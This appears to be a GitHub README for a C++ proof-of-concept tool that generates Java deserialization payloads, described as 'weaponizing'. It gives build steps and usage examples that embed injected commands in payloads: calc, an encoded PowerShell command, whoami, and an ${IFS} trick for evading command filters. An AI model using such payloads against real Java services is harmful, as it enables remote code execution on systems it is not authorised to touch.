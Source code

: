   ```
       ▄█    ▄████████ ███▄▄▄▄   ███▄▄▄▄   ▄██   ▄    ▄█          ▄████████ ▀█████████▄  
      ███   ███    ███ ███▀▀▀██▄ ███▀▀▀██▄ ███   ██▄ ███         ███    ███   ███    ███ 
      ███   ███    █▀  ███   ███ ███   ███ ███▄▄▄███ ███         ███    ███   ███    ███ 
      ███  ▄███▄▄▄     ███   ███ ███   ███ ▀▀▀▀▀▀███ ███         ███    ███  ▄███▄▄▄██▀  
      ███ ▀▀███▀▀▀     ███   ███ ███   ███ ▄██   ███ ███       ▀███████████ ▀▀███▀▀▀██▄  
      ███   ███    █▄  ███   ███ ███   ███ ███   ███ ███         ███    ███   ███    ██▄ 
      ███   ███    ███ ███   ███ ███   ███ ███   ███ ███▌    ▄   ███    ███   ███    ███ 
  █▄ ▄███   ██████████  ▀█   █▀   ▀█   █▀   ▀█████▀  █████▄▄██   ███    █▀  ▄█████████▀  
  ▀▀▀▀▀▀                                             ▀                                   
```



# whysoserial-cpp

![image](https://github.com/user-attachments/assets/da6827fc-b24f-4b6d-8faa-fc99d5a233e5)




## whysoserial-cpp ( PoC )
Implementation of Java object serializations in C++ an weaponizing functionalitity ( a lost day... than yoserial )

GNU GPL3 License ( JennyLab OpenSource )
    

### Build

```
g++ -std=c++17 -O2 -o whysoserial-cpp ysoserial.cpp
```
or

```
mkdir build
cd build
cmake ..
make
```

or

```
make
```


### Payload inject execution commands abusing serialization

```
./whysoserial-cpp templates "cmd /c calc"
```

### Encoding

```
./whysoserial-cpp object1 "powershell -enc <base64_command>"
```
        
### Obfucation 

```
./whysoserial-cpp object2 "p\${IFS}ing\${IFS}8.8.8.8"
```
        
### Inyecting ENV

```
./whysoserial-cpp templates "\$SHELL -c 'whoami'"
```




## Code "whysoserial-cpp.cpp"
```
  whysoserial.cpp   # whysoserial-cpp
  ├── JavaSerialization   # Constants and types
  ├── JavaPayloadGen # Main class to make and object in C++ to serialize this serialization with provide and destination in seralize... Seria... Lize!!!
```                                                           




